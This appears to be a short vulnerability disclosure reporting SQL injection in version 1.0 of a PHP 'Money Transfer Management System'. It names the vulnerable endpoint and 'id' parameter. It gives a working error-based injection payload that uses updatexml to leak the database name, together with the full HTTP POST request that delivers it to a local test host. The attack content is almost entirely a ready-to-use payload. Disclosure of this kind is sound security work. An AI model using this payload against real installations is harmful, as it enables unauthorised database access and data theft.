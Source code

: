 # Money Transfer Management System v1.0 by oretnom23 has SQL injection

**Author：** XinMiao Zhang

vendors: https://www.sourcecodester.com/php/15015/money-transfer-management-system-send-money-businesses-php-free-source-code.html

Vulnerability File: \mtms\classes\Master.php?f=delete_Branch

Vulnerability location: /mtms/classes/Master.php?f=delete_Branch, id

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /mtms/classes/Master.php?f=delete_Branch HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/mtms/admin/?page=maintenance/branch
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=bnvs2lhahed1884v0nf12nt52s
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164701703-ad00bdc0-9b6e-48f3-ab5d-d01a1814a638.png)
